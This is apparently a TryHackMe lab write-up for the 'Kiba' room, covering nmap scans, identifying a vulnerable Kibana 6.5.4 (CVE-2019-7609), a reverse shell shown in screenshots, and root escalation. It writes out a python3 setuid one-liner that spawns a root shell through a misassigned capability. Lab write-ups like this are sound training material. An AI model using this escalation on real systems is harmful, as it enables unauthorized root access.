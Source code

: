 # TryHackMe-Kiba

>Abdullah Rizwan | 10:28 AM | 4th November ,2020

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-04 10:31 PKT
Nmap scan report for 10.10.215.99
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
This didn't returned a port on which `kibana` was runinng so let's try enumarting for ports that are greater than 1000

```
ost is up (0.23s latency).                                                                                                                         
Not shown: 65531 closed ports                                                                                                                       
PORT     STATE SERVICE      VERSION                                                                                                                 
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                      
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)                                                                                      
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)                                                                                     
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)                                                                                   
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))                                                                                          
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                        
|_http-title: Site doesn't have a title (text/html).                                                                                                
5044/tcp open  lxi-evntsvc?                                                                                                                         
5601/tcp open  esmagent?                                                                                                                            
| fingerprint-strings:                                                                                                                              
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionR
eq, TLSSessionReq, TerminalServerCookie, X11Probe:                        
|     HTTP/1.1 400 Bad Request                                                                                                                      
|   FourOhFourRequest:                                                                                                                              
|     HTTP/1.1 404 Not Found                                                                                                                        
|     kbn-name: kibana                                                                                                                              
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c                     
|     content-type: application/json; charset=utf-8                       
|     cache-control: no-cache                                             
|     content-length: 60             
|     connection: close              
|     undefined: undefined           
|     Date: Wed, 04 Nov 2020 06:00:22 GMT                                 
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}                                                                                  
|   GetRequest:                      
|     HTTP/1.1 302 Found             
|     location: /app/kibana          
|     kbn-name: kibana               
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c                     
|     cache-control: no-cache                                             
|     content-length: 0              
|     connection: close              
|     undefined: undefined           
|     Date: Wed, 04 Nov 2020 06:00:17 GMT                                 
|   HTTPOptions:                     
|     HTTP/1.1 404 Not Found                                              
|     kbn-name: kibana               
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c                     
|     content-type: application/json; charset=utf-8                       
|     cache-control: no-cache                                             
|     content-length: 38             
|     connection: close              
|     undefined: undefined           
|     Date: Wed, 04 Nov 2020 06:00:17 GMT                                 
|_    {"statusCode":404,"error":"Not Found"}                              
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/
submit.cgi?new-service :             
```


Visting the port `5601`

<img src="https://imgur.com/iHct8wi.png"/>

<img src="https://imgur.com/vr5Yjwg.png"/>

Here you can find the version which kibana is running 

* What is the vulnerability that is specific to programming languages with prototype-based inheritance?

By google search found about `prototype pollution`


* What is the version of visualization dashboard installed in the server?

Version: 6.5.4

* What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000 

CVE-2019-7609

Searching the CVE on google I found a github page 

`https://github.com/mpgn/CVE-2019-7609`


<img src="https://imgur.com/ZVN4udx.png"/>

Now as I soon as I visit the page `canvas` I get a reverse shell

<img src="https://imgur.com/gqFHe6M.png"/>


<img src="https://imgur.com/XCE2Ykw.png"/>

Now on port 80 it was pointed to us about `linux capabilites` so on searching capabilites on linux I came across something called `getcap` that lists the files that have capabilites to run anythin on system,Capabilities is a concept that provides a security system that allows "divide" root privileges into different values


When running `getcap` shell got broke and I tried so many times re deoplying the machine to again get a reverse shell 

Finally after getting a shell I ran the command 

```
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

```
```
kiba@ubuntu:/home/kiba$ cd .hackmeplease 
cd .hackmeplease
kiba@ubuntu:/home/kiba/.hackmeplease$ ls -al
ls -al
total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
drwxr-xr-x 6 kiba kiba    4096 Nov  3 22:19 ..
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3

```
We see that python3 has `capabilites` set so on visiting GTFOBINS

<img src="https://imgur.com/tcHkrvH.png"/>

## Privilege Escalation

`./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<kmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'   
pwd
/home/kiba/.hackmeplease
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
whoami
root

```
